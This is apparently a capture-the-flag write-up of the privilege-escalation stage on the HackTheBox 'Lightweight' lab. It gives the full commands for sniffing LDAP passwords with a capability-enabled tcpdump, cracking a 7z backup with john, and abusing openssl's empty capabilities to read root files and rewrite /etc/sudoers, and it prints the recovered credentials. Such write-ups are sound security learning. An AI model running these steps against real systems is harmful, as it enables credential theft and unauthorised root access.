 # 15 - PrivEsc

# Linpeas.sh
![](vx_images/5079405769750.png)

| Capabilities name |                Description                 |
| ----------------- | ------------------------------------------ |
| CAP_NET_RAW       | Use RAW and PACKET sockets (sniff traffic) |
https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities#cap_net_raw


According to hacktricks we should be able to monitor traffic with this version of tcpdump because it has CAP_NET_RAW capability.

```bash
┌─[user@parrot]─[10.10.14.18]─[~/htb/lightweight]
└──╼ $ ssh -l 10.10.14.18 10.10.10.119 '/usr/sbin/tcpdump -i any -U -w - not port 22' | wireshark -k -i -
10.10.14.18@10.10.10.119's password: 
tcpdump: listening on any, link-type LINUX_SLL (Linux cooked), capture size 262144 bytes
```
Connect to the target box through ssh, run tcpdump and redirect the output to my box for wireshark

# tcpdump
* -i  interface ( tcpdump -D to see all interfaces)
* -U causes the output to write`at the end of each packet` rather than `at the end of each line` (otherwise wireshark thinks packet is damaged)
* -w - writes to stdout
* not port 22 because ssh is encrypted

# wireshark
* -k start capturing immediately
* -i - read from stdin


# LDAP authentication plain text password

![](vx_images/1669610476392.png)

Plain text credentials are sent over the network
* ldapuser2:8bc8251332abe1d7f105d3e53ad39ac2

# ldapuser2
![](vx_images/3509011022870.png)

# backup.7z
```
[ldapuser2@lightweight ~]$ ls -l
total 1868
-rw-r--r--. 1 root      root         3411 Jun 14  2018 backup.7z
-rw-rw-r--. 1 ldapuser2 ldapuser2 1520530 Jun 13  2018 OpenLDAP-Admin-Guide.pdf
-rw-rw-r--. 1 ldapuser2 ldapuser2  379983 Jun 13  2018 OpenLdap.pdf
-rw-r--r--. 1 root      root           33 Jun 15  2018 user.txt
[ldapuser2@lightweight ~]$ 
```

# Crack 7z Password
```sql
┌─[user@parrot]─[10.10.14.18]─[~/htb/lightweight/backup]
└──╼ $ perl 7z2hashcat.pl backup.7z  > hash.txt
ATTENTION: the hashes might contain sensitive encrypted data. Be careful when sharing or posting these hashes


┌─[user@parrot]─[10.10.14.18]─[~/htb/lightweight/backup]
└──╼ $ john hash.txt  -w=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (7z, 7-Zip [SHA256 256/256 AVX2 8x AES])
Cost 1 (iteration count) is 524288 for all loaded hashes
Cost 2 (padding size) is 12 for all loaded hashes
Cost 3 (compression type) is 2 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
delete           (?)
1g 0:00:01:31 DONE (2021-07-09 17:55) 0.01088g/s 22.46p/s 22.46c/s 22.46C/s slimshady..aries
Use the "--show" option to display all of the cracked passwords reliably
Session completed

```

* Password: delete
# Extract files
```
┌─[user@parrot]─[10.10.14.18]─[~/htb/lightweight/backup]
└──╼ $ 7z x backup.7z
┌─[user@parrot]─[10.10.14.18]─[~/htb/lightweight/backup]
└──╼ $ ls
7z2hashcat.pl  backup.7z  hash.txt  index.php  info.php  reset.php  status.php  user.php

```

# ldapuser1
```sql
┌─[user@parrot]─[10.10.14.18]─[~/htb/lightweight/backup]
└──╼ $ cat status.php  | grep -i "username \|password "
$username = 'ldapuser1';
$password = 'f3ca9d298a553da117442deeb6fa932d';
```

# Shell
```bash
[ldapuser2@lightweight html]$ su - ldapuser1
Password: 
Last failed login: Thu Jul  8 18:00:22 BST 2021 from 10.10.14.18 on ssh:notty
There were 4 failed login attempts since the last successful login.
[ldapuser1@lightweight ~]$ 
```


# Empty Capability
```
[ldapuser1@lightweight ~]$ getcap *
openssl =ep
tcpdump = cap_net_admin,cap_net_raw+ep
[ldapuser1@lightweight ~]$ 
```
Basically, openssl will run as root with empty capability sets.
https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities#the-special-case-of-empty-capabilities

# root flag
```bash
[ldapuser1@lightweight ~]$ ./openssl enc -in  /root/root.txt
f1d4e309................
```


# Privilege escalation through sudoers
```bash
[ldapuser1@lightweight ~]$ ./openssl enc -in  /etc/sudoers > sudoers         # read sudoers
[ldapuser1@lightweight ~]$ cat sudoers                                       # add ldapuser1 to the list
## Allow root to run any commands anywhere 
root    ALL=(ALL)       ALL
ldapuser1       ALL=(ALL)       ALL


[ldapuser1@lightweight ~]$ ./openssl enc -in  ./sudoers -out /etc/sudoers    # copy ./sudoers to /etc/sudoers

```
openssl enc module without any cipher will print the file as is

# Root shell
```bash
[ldapuser1@lightweight ~]$ sudo su -
[sudo] password for ldapuser1: 
Last login: Thu Dec  6 14:09:41 GMT 2018 on tty1
[root@lightweight ~]# id
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```